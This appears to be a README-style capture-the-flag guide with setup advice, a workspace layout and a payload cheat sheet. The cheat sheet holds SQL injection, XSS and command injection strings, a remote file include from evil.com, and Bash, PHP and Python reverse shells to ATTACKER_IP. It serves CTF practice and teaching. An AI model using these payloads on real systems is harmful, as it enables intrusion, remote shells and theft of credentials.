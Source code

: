 # Ultimate CTF Guide: Tips, Tricks, Payloads, and Pro Strategies

## Table of Contents

- [1. CTF Basics](#ctf-basics)
- [2. Pro CTF Player Mindset](#pro-ctf-player-mindset)
- [3. Essential Setup for CTFs](#essential-setup-for-ctfs)
- [4. Folder Structure for CTFs](#folder-structure-for-ctfs)
- [5. Must-Know Payloads & Techniques](#must-know-payloads--techniques)
- [6. Useful Tools & Resources](#useful-tools--resources)

---

## 1. CTF Basics

- **CTF (Capture The Flag)** competitions are cybersecurity challenges where you solve tasks to find "flags" (secret strings).
- Categories: Web, Crypto, Pwn, Forensics, OSINT, Reversing, Misc.

## 2. Pro CTF Player Mindset

- **Practice regularly**: Use platforms like [Hack The Box](https://www.hackthebox.com/), [TryHackMe](https://tryhackme.com/), [CTFtime](https://ctftime.org/).
- **Take notes**: Document every trick, payload, and solution.
- **Automate**: Write scripts to speed up repetitive tasks.
- **Teamwork**: Collaborate, share knowledge, and communicate.
- **Stay updated**: Follow writeups, blogs, and new vulnerabilities.
- **Think outside the box**: Try unexpected inputs and approaches.

## 3. Essential Setup for CTFs

### Recommended Environments

- **Kali Linux (VM or Bare Metal)**: Most tools pre-installed, stable.
- **Parrot OS**: Lighter, privacy-focused, also CTF-ready.
- **WSL2 (Windows Subsystem for Linux)**: Good for quick access, but some tools may not work.
- **Custom Ubuntu/Debian VM**: Install only what you need.
- **Cloud VMs**: For heavy tasks or remote access.

**Pro Tip:** Use a VM snapshot before each CTF for easy rollback.

### Tools to Install

- `nmap`, `gobuster`, `ffuf`, `sqlmap`, `burpsuite`, `john`, `hydra`, `ghidra`, `pwntools`, `binwalk`, `wireshark`, `gdb`, `radare2`, `python3`, `pip`, `git`, `docker`, `tmux`, `zsh`.

## 4. Folder Structure for CTFs

Organize by platform and challenge:

```plaintext
CTF-Workspace/
├── HTB/
│   ├── Machine-Name/
│   │   ├── notes.md
│   │   ├── exploits/
│   │   ├── loot/
│   │   └── screenshots/
├── THM/
│   ├── Room-Name/
│   │   ├── notes.md
│   │   ├── scripts/
│   │   └── loot/
├── CTFtime/
│   ├── Event-Name/
│   │   ├── web/
│   │   ├── pwn/
│   │   ├── crypto/
│   │   └── notes.md
└── Tools/
    └── custom-scripts/
```

**Tips:**

- Use `notes.md` for each challenge.
- Save all payloads, scripts, and loot (flags, hashes, etc).
- Take screenshots of key steps.

## 5. Must-Know Payloads & Techniques

### Web Exploitation

- **SQL Injection**
  - `' OR 1=1-- -`
  - `admin'--`
  - `" OR "1"="1"
  - `UNION SELECT username, password FROM users--`
- **XSS (Cross-Site Scripting)**
  - `<script>alert(1)</script>`
  - `"><img src=x onerror=alert(1)>`
  - `javascript:alert(document.cookie)`
- **Command Injection**
  - `; ls -la`
  - `| whoami`
  - `$(id)`
- **LFI/RFI**
  - `../../../../etc/passwd`
  - `php://filter/convert.base64-encode/resource=index.php`
  - `http://evil.com/shell.txt`
- **Common Directories/Files**
  - `/admin`, `/backup`, `/robots.txt`, `/config.php`, `.git/`, `.env`

### Password Attacks

- **Default Credentials**: `admin:admin`, `root:toor`, etc.
- **Wordlists**: Use `rockyou.txt`, `SecLists`.
- **Hash Cracking**: `john --wordlist=rockyou.txt hash.txt`

### Reverse Shells

- **Bash**: `bash -i >& /dev/tcp/ATTACKER_IP/PORT 0>&1`
- **PHP**: `php -r '$sock=fsockopen("ATTACKER_IP",PORT);exec("/bin/sh -i <&3 >&3 2>&3");'`
- **Python**: `python3 -c 'import os,pty,socket;s=socket.socket();s.connect(("ATTACKER_IP",PORT));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/bash")'`

### File Transfer

- **Python HTTP Server**: `python3 -m http.server 8000`
- **Netcat**: `nc -lvnp 4444 > file`

### Enumeration

- **nmap**: `nmap -sC -sV -oN nmap.txt TARGET`
- **Gobuster**: `gobuster dir -u http://TARGET -w /usr/share/wordlists/dirb/common.txt`

### Forensics

- **Steghide**: `steghide extract -sf file.jpg`
- **Binwalk**: `binwalk -e file.bin`
- **Strings**: `strings file`

### Miscellaneous

- **Base64**: `echo 'aGVsbG8=' | base64 -d`
- **ROT13**: `tr 'A-Za-z' 'N-ZA-Mn-za-m'`
- **URL Decode**: `python3 -c 'import urllib.parse; print(urllib.parse.unquote("string"))'`

## 6. Useful Tools & Resources

- [SecLists](https://github.com/danielmiessler/SecLists) - Wordlists for everything
- [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings)
- [HackTricks](https://book.hacktricks.xyz/)
- [GTFOBins](https://gtfobins.github.io/)
- [Reverse Shell Cheat Sheet](https://www.revshells.com/)
- [CyberChef](https://gchq.github.io/CyberChef/)
- [CrackStation](https://crackstation.net/)

---

**Keep learning, keep hacking, and always take notes!**
